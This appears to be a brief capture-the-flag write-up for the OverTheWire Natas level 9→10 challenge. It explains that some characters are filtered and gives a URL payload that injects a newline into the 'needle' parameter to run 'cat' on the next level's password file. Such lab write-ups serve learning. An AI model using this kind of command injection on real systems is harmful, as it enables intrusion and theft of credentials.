




**Natas (OTW)**

**Natas 10 Writeup:**

Natas level 9 —>10

Here we are given 2 options of variables that can’t be used within the payload and if used or it will project an input error as the output.

Therefore the payload that is being inputted as the url has to be modified to make the necessary changes.

**Payload : <http://natas10.natas.labs.overthewire.org/?needle=%0acat%20/etc/natas_webpass/natas10>**

